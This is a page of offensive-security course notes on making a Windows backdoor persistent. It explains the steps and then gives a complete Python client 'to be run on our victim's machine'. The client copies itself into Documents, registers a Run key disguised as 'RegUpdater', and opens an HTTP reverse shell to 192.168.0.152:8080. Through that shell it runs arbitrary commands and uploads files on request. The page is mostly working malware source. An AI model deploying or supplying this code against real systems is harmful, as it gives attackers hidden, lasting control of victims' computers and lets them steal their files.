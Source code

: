 ```yaml
---
title: Making your binary persistent
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - reverse shell
  - persistence
  - registry
---
```


# Making your binary persistent

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall.md).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


In order for a binary to persist, the binary must do three things:

**1.** To copy itself into a different location. We need source path (current working directory) and destination path, for instance, the Document folder. This means that we need to know the username: 

	```cmd
		c:\Users\<username>\Documents
	```
	
**2.** To add a registry key pointing to our new exe location. This is done only the first time.

**3.** For consecutive times, we have to avoid repeating steps 1 and 2.


## Phases for persistence

### 1. System recognition

Getting to know the current working directory + the user profile.


### 2. Copy the binary to a different location

If the binary is not found in the destination folder, we can assume this is the first time we're running it. Then:

We will copy the binary to a different location. For that, we need a source path (current working directory) and a destination path, for instance, the Document folder. This means that we need to know the current working directory (for the source path)  and the username (for the destination path): 

	```cmd
		c:\Users\<username>\Documents
	```

This information was already retrieved in step 1 (System recognition).

### 3. Add a Registry key 

If the binary is not found in the destination folder, we can assume this is the first time we're running it. Then:

We will add a Registry key.

### 4. Fire up our shell


## Client side

To be run on our victim's machine.

```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2

import requests
import os
import subprocess
import time
import shutil 
import winreg as wreg

#Reconn Phase
path = os.getcwd().strip('/n')

Null, userprof = subprocess.check_output('set USERPROFILE', shell=True,stdin=subprocess.PIPE,  stderr=subprocess.PIPE).decode().split('=')

destination = userprof.strip('\n\r') + '\\Documents\\' + 'client.exe'

#If it was the first time our backdoor gets executed, then Do phase 1 and phase 2 
if not os.path.exists(destination):
    shutil.copyfile(path+'\client.exe', destination) #You can replace   path+'\client.exe' with sys.argv[0] ---> the sys.argv[0] will return the file name

    key = wreg.OpenKey(wreg.HKEY_CURRENT_USER, "Software\Microsoft\Windows\CurrentVersion\Run", 0, wreg.KEY_ALL_ACCESS)
    wreg.SetValueEx(key, 'RegUpdater', 0, wreg.REG_SZ, destination)
    key.Close()



#Last phase is to start a reverse connection back to our kali machine

while True:
    req = requests.get('http://192.168.0.152:8080')
    command = req.text
    if 'terminate' in command:
        break
    elif 'grab' in command:
        grab, path = command.split("*")
        if os.path.exists(path):
            url = "http://192.168.0.152:8080/store"
            files = {'file': open(path, 'rb')}
            r = requests.post(url, files=files)
        else:
            post_response = requests.post(url='http://192.168.0.152:8080', data='[-] Not able to find the file!'.encode())
    else:
        CMD = subprocess.Popen(command, shell=True,stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        post_response = requests.post(url='http://192.168.0.152:8080', data=CMD.stdout.read())
        post_response = requests.post(url='http://192.168.0.152:8080', data=CMD.stderr.read())
    time.sleep(3)


```
